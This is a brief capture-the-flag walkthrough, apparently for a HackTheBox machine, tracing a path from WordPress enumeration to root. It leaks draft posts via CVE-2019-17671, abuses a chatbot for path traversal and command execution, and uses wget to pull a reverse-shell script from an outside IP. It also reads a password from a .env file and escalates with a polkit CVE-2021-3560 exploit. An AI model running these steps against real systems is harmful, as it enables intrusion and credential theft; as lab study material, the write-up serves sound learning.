 ## Credential


## Path
### User
1. `mod_fcgid` is FastCGI. After test, `/cgi-bin/` returns 403 Forbidden, which means CGI program exists.
2. Found HTTP header `X-Backend-Server: office.paper`, so set `office.paper` as hostname in `/etc/hosts`. Then visit `office.paper`.
3. Wordpress users: `nick`, `Prisonmike`
3. `/index.php/wp-json/` is the API endpoint of Wordpress, worth to take a look.
4. See some pages that not shown on `http://office.paper/index.php/wp-json/wp/v2/pages` by examining the API.
5. From the hint in the published posts and the result of `wpscan`, I found this vuln leak the draft by visiting `http://office.paper/?static=1`. And it reveals a chat service register page.
```
$ cat wordpress/wpscan-api.out
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/

$ curl http://office.paper/?static=1
<p>http://chat.office.paper/register/8qozr226AhkCHZdyY</p>
```
6. From the conversation in the chat, we can send `recyclops file ../../../../../../../../../etc/passwd` to read files on the box, use `recyclops list ..` for `ls`
7. Use `recyclops run {cat,/etc/passwd}` to execute command.
```
recyclops run {wget,10.10.17.233:8000/rev.sh}
recyclops run {sh,./rev.sh}
```
8. The password of `dwight` is in `/home/dwight/hubot/.env`.

### Root
1. CentOS 8 is vulnerable to [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation), so run the script and get root.
